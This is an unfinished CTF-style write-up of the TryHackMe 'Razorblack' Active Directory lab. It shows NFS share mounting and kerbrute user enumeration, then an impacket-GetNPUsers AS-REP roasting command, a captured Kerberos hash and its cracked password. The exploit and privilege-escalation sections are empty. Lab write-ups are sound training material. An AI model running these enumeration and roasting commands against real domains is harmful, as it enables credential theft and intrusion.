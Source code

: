 # Razorback Helped Through

Name: Razorback
Date:  /2022
Difficulty:  Medium
Description: These guys call themselves hackers. Can you show them who's the boss ??
Goals:  Chill out and have fun
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Razorblack/Screenshots/ping.png)

![](rpcclientdeadend.png)

![](2049mountage.png)

![](filtered.png)

[Newbie Tuesday](https://www.youtube.com/watch?v=sdxdSWpzF-M&t=970s)

Question-along:
- What ports are important: 445, 88, 3369 389, 636 
- AD requires DNS and hostname is important for kerberos
- crackmapexec
- null authentication
- nfs is file sharing

```bash
sudo showmount -e $ip
sudo mkdir /mnt/rb
sudo mount HAVEN-DC:/users /mnt/rb # DNS and AD
sudo su # to be root the travverse driectory 
umount $ip:/local/file/path		
```

Into the beast the first flag is here
![](mounting.png)

Exflitrating the spreadsheets full of names
![1000](theemployees.png)
sbradley.txt is the naming convention ; ljudmila vetrova AD admin 

![](learningkerbrute.png)
Have not used kerbrute in awhile

Pre-Authenication disabled in kerberos is timestamp to dc encrypted by the password hash of the user.
```bash
impacket-GetNPUsers -dc-ip HAVEN-DC -usersfile validusers.txt -format john raz0rblack.thm/
```
![](asreproasting.png)
```
$krb5asrep$twilliams@RAZ0RBLACK.THM:f46ff33ba011644211541533d0586e15$8fe6da6fb859d20d1e256ca394b0cbeab33f395874093f51a34b15031a305f6801724ac6a2f78c50f6d26933a036afd204198d4eb8efb5eaf5fd47197e9896fde4bb61b453906bd3d62b31893fab8a39874a21c0eb6dcc17c7606c2a7ec433339b8682e3a894a77794a6baf833153918b51133ad6ee8158a855a03bf563574a181f0060ee8373c39de0d675504339066c186a5a73aec3295d0443925cc82e97d1c25b19f219dc2896366c7954b955225c931e2534d1fd28a0fc8aeaceb7540a808704f80474586cd62b2696092765eedb2304cbe3df8cb4b91900d1428c4a0af0285c9ce19c2749e42d4666c53fca9d9 

roastpotatoes
```


![](cmetw.png)

![](weirdness.png)

![](ridbrute.png)

xyan1d3 is not pre-auth




## Exploit

## Foothold

## PrivEsc

      
